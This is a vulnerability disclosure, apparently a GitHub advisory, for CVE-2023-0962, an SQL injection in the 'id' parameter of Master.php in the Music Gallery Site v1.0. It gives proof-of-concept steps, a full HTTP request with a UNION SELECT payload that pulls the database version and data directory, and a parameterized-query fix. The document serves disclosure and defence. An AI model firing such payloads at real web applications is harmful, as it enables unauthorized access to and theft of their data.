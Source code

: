 # Music Gallery Site - SQL Injection on page Master.php and parameter id is vulnerable. 
> Any remote attacker can access this page to exploit the vulnerbility.
### Date: 
> 21 February 2023

### CVE Assigned:
**[CVE-2023-0962](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0962)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0962) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0962)


### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Music Gallery Site](https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
# Vulnerable URL:
> URL: php-music/classes/Master.php?f=get_music_details&id=*
### Affected Page:
> Master.php
> On this page, there is "get_music_details" in that id parameter is vulnerable to SQL Injection Attack
> URL of the vulnerable parameter is: php-music/classes/Master.php?f=get_music_details&id=*
### Description:
> The Music Gallery site does have public pages for music library. Whenever someone click on play button any music the popup will appear on the same page. However, on backend server calls the file Master.php, in that file "get_music_details" is running the music and this function Get id parameter is vulnerable to SQL Injection.
### Proof of Concept:
> Following steps are involved:
1. Go to the music list and click on play button of any music.
2. intercept the traffic through burp and get the actual URL
3. In URL, there is a parameter 'id' which is vulnerable to SQL injection (Master.php?f=get_music_details&id=1*)
### Request:
```
GET /php-music/classes/Master.php?f=get_music_details&id=1%27+and+false+union+select+1,version(),@@datadir,4,5,6,7,8,9,10,11--+- HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=a5fd11866a86264db3a68bb1817b2c7f
Connection: close

```
### Response:
![image](https://user-images.githubusercontent.com/123810418/220339548-20e31f82-cab4-4732-8cf7-8a146c2c1d5b.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT * FROM `music_list` where `id` = :id");
$sql->bindparam(':id', $id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading
